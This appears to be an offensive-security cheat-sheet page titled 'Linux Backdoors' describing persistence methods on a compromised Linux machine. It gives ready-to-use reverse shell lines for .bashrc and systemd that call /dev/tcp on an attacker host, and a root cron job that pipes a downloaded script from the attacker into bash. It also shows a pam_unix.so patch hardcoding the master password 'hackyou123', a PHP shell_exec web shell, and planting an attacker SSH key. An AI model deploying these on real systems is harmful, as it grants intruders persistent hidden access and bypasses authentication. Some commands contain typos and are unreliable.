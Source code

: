 ```yaml
---
title: Linux Backdoors
description: After compromising a target machine, the adversary attempts to establish persistent access. This page lists some methods of backdoors in Linux for persistence.
tags:
    - Privilege Escalation
refs:
date: 2023-02-10
draft: false
---
```


## .bashrc

Add this line to **`/root/.bashrc`** or **`/home/<user>/.bashrc`** to gain access to target machine by reverse shell when the victim user logged in.  
Replace **`<local-ip>`** with your local ip address.

```sh
bash -i >& /dev/tcp/<local-ip>/4444
```

Of course you need to always open netcat listener to be able to fetch incoming connection from the target.

```sh
nc -lvnp 4444
```

<br />

## Cron

Add this line to the cron file like `/etc/crontab` in the target machine.

```sh
* * * * * root curl http://<local-ip>:<local-port>/shell | bash
```

Create the **“shell”** file in local machine.  
Replace **`<local-ip>`** with your ip address.

```sh
#!/bin/bash
bash -i >& /dev/tcp/<local-ip>/4444 0>&1
```

Now start local web server in local machine. Note that your current working direcotry need to be where the **“shell”** is located.

```sh
python3 -m http.server 4444
```

Once the cron job downloads the **“shell”** file,  run **“bash”** command to execute the **“shell”**.  
We should gain access to the target shell.

<br />

## pam_unix.so

The pam_unix.so module is likely located in **`/usr/lib/security`** or **`/usr/lib/x86_64-linux-gnu/security`** directory. It automatically detects and uses shadow passwords to authenticate users.  
See this line in the pam_unix.so.

```cpp
...

/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
name = p = NULL;

...
```

Modify this line to as below.

```cpp
...

/* verify the password of this user */
if (strcmp(p, "hackyou123") != 0) {
	retval = _unix_verify_password(pamh, name, p, ctrl);
} else {
	retval = PAM_SUCCESS;
}
name = p = NULL;

AUTH_RETURN;

...
```

Whenever you login to the target system using the password “hackyou123”, you can successfully login.

<br />

## PHP

### 1. Create a Payload

Create a php file (e.g. shell.php) into **`/var/www/html`**.

```php
<?php 

	if (isset($_REQUEST['cmd'])) {
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	}

?>
```

Leave the php file in **`/var/www/html`**.  

### 2. Reverse Shell

After that, start a listener for receiving the outcomming connection.

```sh
nc -lvnp 4444
```

Now access to the web page as below.  
Replace **`<local-ip>`** with your ip address.

```bash
http://<target-ip>/shell.php?cmd=bach -i >& /dev/tcp/<local-ip>/4444 0>&1
```

We should get a shell.

<br />

## SSH

We can establish a backdoor to allow us to be able to connect the target SSH server anytime by leaving our public key in the target machine.

### 1. Generate a New SSH key
    
First off, run the following command to generate SSH key.

```sh
ssh-keygen
```

It will generate two keys, **private key (id_rsa)** and **public key (id_rsa.pub)**.

### 2. Transfer Our SSH Public Key to Target System

If there is no **`.ssh`** directory in target, we need to create it.

```bash
mkdir .ssh
```

Then put our public key (**id_rsa.pub**) into **`/root/.ssh`** or **`/home/<user>/.ssh`** in the target machine.  
**scp** command can be used for transfering it. Replace **`<target-user>`** and **`<target-iip>`** depending on your target.

```sh
scp ./id_rsa.pub <target-user>@<target-ip>:/root/.ssh/
# or
scp ./id_rsa.pub <target-user>@<target-ip>:/home/<target-user>/.ssh/
```

### 3. Add the Public Key Content to authorized_keys

Also we need to add the content of our **`id_rsa.pub`** to the target **authorized_keys** file.

```sh
cat id_rsa.pub >> authorized_keys
```

### 4. Change Permission of SSH

In target machine, we need to set the right permissions of the file/directory. Otherwise we cannot connect SSH. 
Replace **`<target-user>`** with your target.

```sh
chmod 700 /root
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
# or
chmod 700 /home/<target-user>
chmod 700 /home/<target-user>/.ssh
chmod 600 /home/<target-user>/.ssh/authorized_keys
```

### 5. Connect to SSH Anytime
    
After that, we can connect to the target SSH when we want to connect it as long as the public key in **.ssh** directory is not removed.
Before connecting, we need to modify the permission of our private key in local.

```bash
chmod 600 private_key
```

Now we can connect to SSH of the target.  

```bash
ssh root@<target-ip> -i private_key
# or
ssh <target-user>@<target-ip> -i private_key
```

<br />

## Systemd

We can use systemd as a backdoor because an arbitrary command will be executed when a service start.  
The command is stored in **`[Services]`** section in the configuration file.  

### 1. Create a New Systemd Config File

Create **`/etc/systemd/system/backdoor.service`** in target machine.  
This service will execute **reverse shell** when starting.  
Replace **`<local-ip>`** with your ip address.

```bash
[UNIT]
Description=Backdoor

[Service]
Type=simple
ExecStart=/bin/bash -i >& /dev/tcp/<local-ip>/4444 0>&1

[Install]
WantedBy=multi-user.target
```

Then enable the service.

```bash
systemctl enable backdoor
```

Now this service will start when the target system boots.

### 2. Wait for Reverse Connecting

We need to leave the netcat listener running in local machine.

```sh
nc -lvnp 4444
```

Then we'll get a shell anytime the service starts.